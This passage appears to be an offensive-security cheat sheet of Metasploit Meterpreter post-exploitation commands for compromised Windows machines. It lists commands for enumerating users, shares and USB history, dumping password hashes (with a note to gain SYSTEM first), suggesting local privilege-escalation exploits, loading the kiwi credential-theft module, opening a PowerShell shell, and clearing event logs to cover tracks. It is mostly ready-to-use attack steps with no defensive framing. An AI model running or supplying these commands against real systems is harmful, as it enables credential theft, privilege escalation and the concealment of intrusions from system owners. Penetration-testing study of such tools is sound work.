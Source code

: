 ```
meterpreter > run post/windows/gather/enum_logged_on_users 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_shares 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_snmp
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/hashdump
**ENSURE SYSTEM before running 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/usb_history 
-----------------------------------------------------------------------
msf > use post/multi/recon/local_exploit_suggester
set SESSION X
SHOWDESCRIPTION true
-----------------------------------------------------------------------
msf > use post/recon/outbound_ports
```

### Winenum Windows Built In enumeration Script

* from your meterpreter prompt:

```
meterpreter> run winenum
```

* This will use net, netsh, and wmic commands to enumerate the target machine.
* Note: Each individual command in this script will have its output stored in the path output in the line starting with 'Output of each individual command is saved to '.

### Clearing the Event Log

* from a meterpreter prompt

```
meterpreter> clearev
```

### Meterpreter Extensions

### **kiwi module**&#x20;

```
load kiwi
help kiwi
```

### Powershell Extension

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > 
```

